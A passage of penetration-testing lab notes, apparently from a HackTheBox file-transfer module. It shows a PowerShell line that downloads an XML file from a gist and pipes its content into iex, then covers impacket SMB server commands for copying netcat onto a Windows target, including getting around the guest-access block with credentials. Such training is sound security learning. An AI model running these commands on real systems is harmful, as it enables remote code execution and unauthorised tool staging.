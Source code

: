 ```bash
      <execute>Get-Process</execute>
   </a>
  </command>
#>
$a = New-Object System.Xml.XmlDocument
$a.Load("https://gist.githubusercontent.com/subTee/47f16d60efc9f7cfefd62fb7a712ec8d/raw/1ffde429dc4a05f7bc7ffff32017a3133634bc36/gistfile1.txt")
$a.command.a.execute | iex
```

## SMB Downloads
The Server Message Block protocol (SMB protocol) that runs on port `TCP/445` is common in enterprise networks where windows services are running. It enables applications and users to transfer files to and from remote servers.

WE can use SMB to download files from our pwnbox easily. We need to create an SMB server in our pwnbox with `smbserver.py` from impacket and then use `copy`, `move`,PowerShell `Copy-Item`, or any other tool that allows connection to SMB

## Create the sMB Server
```bash
    sudo impacket-smbserver share -smb2support /tmp/smbshare
```
To download a file from the SMB server to the current working directory, we can use the following command:

## Copy a File from the SMB Server
```bash
    copy \\<ip>\share\nc.exe
```
New versions of Windows block unauthenticated guest access, as we can see in the following command:

```bash
    copy \\<ip>\share\nc.exe
```
Error: You can't access this share folder because your organization's security policies block unauthenticaed guest access. ....

To transfer files in this scenario we can set a username and password using out Impacket SMB server and mount the SMB server on our windows target machine:

## Create the SMB Server with a Username and Password
```bash
    sudo impacket-smbserver share -smb2support /tmp/smbshare -user test -password test
```
## Mount the SMB Server with Username and Password
```bash
    net use n: \\<ip>\share /user:test test
    #The command completed successfully
    C:\htb> copy n:\nc.exe
    #        1 fiel(s) copied.
```
